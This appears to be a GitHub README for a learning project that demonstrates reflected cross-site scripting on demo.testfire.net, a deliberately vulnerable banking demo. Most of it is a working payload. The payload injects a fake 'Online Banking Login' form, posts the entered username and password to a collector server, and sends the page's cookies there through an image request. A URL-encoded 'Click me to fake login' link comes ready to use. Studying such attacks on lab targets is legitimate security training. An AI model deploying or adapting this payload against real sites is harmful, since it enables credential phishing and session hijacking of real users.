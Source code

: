 # Fake Login page using cross site scripting.
# This is done on a website which is made intentionally vulnerable.
# https://demo.testfire.net/
# This is only for learning purposes.

# Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:30000. code is uploaded clone it and run on your system.

<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin';
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();

            document.forms["login"].action = "http://localhost:3000/";
            new Image().src="http://localhost:3000/?"+document.cookie;
            document.forms["login"].method = "get";
            document.forms["login"].target = "http://localhost:3000/";
            document.forms["login"].submit();
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
</script>

# Below is the link prepared from the above script.

# <a href="https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B++++++++++++++document.forms%5B%22login%22%5D.action+%3D+%22http%3A%2F%2Flocalhost%3A3000%22%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22get%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22http%3A%2F%2Flocalhost%3A3000%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+++++++++++++%3C%2Fscript%3E" target="_blank">Click me to fake login</a> (<i>Run this on firefox</i>)


# References
https://pentest-tools.com/blog/xss-attacks-practical-scenarios/ , 
http://form.guide/web-form/submit-form-multiple-scripts.html
